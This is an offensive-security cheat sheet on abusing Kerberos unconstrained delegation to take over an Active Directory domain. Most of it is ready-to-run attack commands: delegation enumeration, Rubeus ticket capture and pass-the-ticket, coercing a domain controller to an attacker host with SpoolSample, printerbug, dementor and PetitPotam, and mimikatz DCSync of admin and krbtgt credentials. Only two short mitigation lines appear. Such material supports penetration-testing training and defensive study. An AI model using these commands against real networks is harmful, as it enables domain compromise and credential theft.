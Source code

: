 # Kerberos Delegation - Unconstrained Delegation

> The user sends a ST to access the service, along with their TGT, and then the service can use the user's TGT to request a ST for the user to any other service and impersonate the user.
> When a user authenticates to a computer that has unrestricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory.

:warning: Unconstrained delegation used to be the only option available in Windows 2000

> **Warning**
> Remember to coerce to a HOSTNAME if you want a Kerberos Ticket

The goal is to gain DC Sync privileges using a computer account and the SpoolService bug.

**Requirements**:

- Object with Property **Trust this computer for delegation to any service (Kerberos only)**
- Must have **ADS_UF_TRUSTED_FOR_DELEGATION**
- Must not have **ADS_UF_NOT_DELEGATED** flag
- User must not be in the **Protected Users** group
- User must not have the flag **Account is sensitive and cannot be delegated**

## Find delegation

:warning: : Domain controllers usually have unconstrained delegation enabled.
Check the `TRUSTED_FOR_DELEGATION` property.

- [ADModule](https://github.com/samratashok/ADModule)

  ```powershell
  # From https://github.com/samratashok/ADModule
  PS> Get-ADComputer -Filter {TrustedForDelegation -eq $True}
  ```

- [bloodyAD](https://github.com/CravateRouge/bloodyAD)

  ```ps1
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))' --attr sAMAccountName,userAccountControl
  ```
  
- [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)

  ```powershell
  $> ldapdomaindump -u "DOMAIN\\Account" -p "Password123*" 10.10.10.10   
  grep TRUSTED_FOR_DELEGATION domain_computers.grep
  ```

- [netexec module](https://github.com/Pennyw0rth/NetExec/wiki)

  ```powershell
  nxc ldap 10.10.10.10 -u username -p password --trusted-for-delegation
  ```

- BloodHound: `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
- Powershell Active Directory module: `Get-ADComputer -LDAPFilter "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -Properties DNSHostName,userAccountControl`

## Kerberoasting Unconstrained Delegation 

* **Rubeus**                                                                                                                                                          
  Monitor for New TGT's                                                                                                                                               
  ```powershell                                                                                                                                                       
  .\Rubeus.exe monitor /interval:5 /nowrap                                                                                                                            
  ```                                                                                                                                                                 
  Use the recieved ticket to access a resource                                                                                                                        
  ```powershell                                                                                                                                                       
  .\Rubeus.exe asktgs /ticket:<Recieved Ticket> /service:<SPN> /ptt                                                                                                   
  ```                                                                                                                                                                 
  If the above doesn't work, we use renew to get a brand new TGT instead of a TGS                                                                                       ```powershell                                                                                                                                                       
  .\Rubeus.exe renew /ticket:<ticket> /ptt                                                                                                                            
  ```

## The Printer Bug (exploit w/ [SpoolSample POC](https://github.com/leechristensen/SpoolSample) & Rubeus

> There is a bug in the Print System Remote protocol that can force a computer to authenticate to any computer in the domain, thus allowing us to capture the machine TGT

* **We can use the [SpoolSample POC](https://github.com/leechristensen/SpoolSample) to accomplish this**

### Execution
  Note: 2 computers, sql01 & DC01
  From SQL01:
  ```powershell
  .\Rubeus.exe monitor /interval:5 /nowrap
  ```
  Open another PS windowson SQL01
  ```powershell
  #Syntax
  .\SpoolSample.exe <TargetServer> <CaptureServer>
  # Example
  .\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local
  ```
  Renew the captured TGT w/ Rubeus
  ```powershell
  .\Rubeus.exe renew /ticket:<ticket> /ptt
  ```
  If we manage to capture the tgt, we can perform a DCSync and pwn the domain

Example
  Dumping an admin user w/ mimikatz
  ```powershell
  mimikatz.exe
  mimikatz > lsadump::dcsync /user:<Admin Username>
  ```
  Rubeus to request a ticket as that admin user
  ```powershell
  .\Rubeus.exe asktgt /rc4:<NTLM hash> /user:<admin username> /ptt
  ```
  We can now use this ticket to impersonate the administrative user.

## SpoolService Abuse with Unconstrained Delegation Using SpoolSample, krbrelayx, & dementor

### SpoolService status

Check if the spool service is running on the remote host

```powershell
ls \\dc01\pipe\spoolss
python rpcdump.py DOMAIN/user:password@10.10.10.10
```

### Monitor with Rubeus

Monitor incoming connections from Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

### Force a connect back from the DC

Due to the unconstrained delegation, the TGT of the computer account (DC$) will be saved in the memory of the computer with unconstrained delegation. By default the domain controller computer account has DCSync rights over the domain object.

> [SpoolSample PoC](https://github.com/leechristensen/SpoolSample) is a PoC to coerce a Windows host to authenticate to an arbitrary server using a "feature" in the MS-RPRN RPC interface.

```powershell
.\SpoolSample.exe VICTIM-DC-NAME UNCONSTRAINED-SERVER-DC-NAME
.\SpoolSample.exe DC01.HACKER.LAB HELPDESK.HACKER.LAB
# DC01.HACKER.LAB is the domain controller we want to compromise
# HELPDESK.HACKER.LAB is the machine with delegation enabled that we control.

### krbrelayx
# From https://github.com/dirkjanm/krbrelayx
printerbug.py 'domain/username:password'@<VICTIM-DC-NAME> <UNCONSTRAINED-SERVER-DC-NAME>

# From https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc#gistcomment-2773689
python dementor.py -d domain -u username -p password <UNCONSTRAINED-SERVER-DC-NAME> <VICTIM-DC-NAME>
```

If the attack worked you should get a TGT of the domain controller.

### Load the ticket

Extract the base64 TGT from Rubeus output and load it to our current session.

```powershell
.\Rubeus.exe asktgs /ticket:<ticket base64> /service:LDAP/dc.lab.local,cifs/dc.lab.local /ptt
```

Alternatively you could also grab the ticket using Mimikatz :  `mimikatz # sekurlsa::tickets`

Then you can use DCsync or another attack : `mimikatz # lsadump::dcsync /user:HACKER\krbtgt`

### Mitigation

- Ensure sensitive accounts cannot be delegated
- Disable the Print Spooler Service

## MS-EFSRPC Abuse with Unconstrained Delegation

Using `PetitPotam`, another tool to coerce a callback from the targeted machine, instead of `SpoolSample`.

```bash
# Coerce the callback
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP

# Extract the ticket
.\Rubeus.exe asktgs /ticket:<ticket base64> /ptt
```

## References

- [Exploiting Unconstrained Delegation - Riccardo Ancarani - 28 APRIL 2019](https://www.riccardoancarani.it/exploiting-unconstrained-delegation/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts - Roberto Rodriguez - Nov 28, 2018](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
- [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - Elad Shamir - 28 January 2019](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
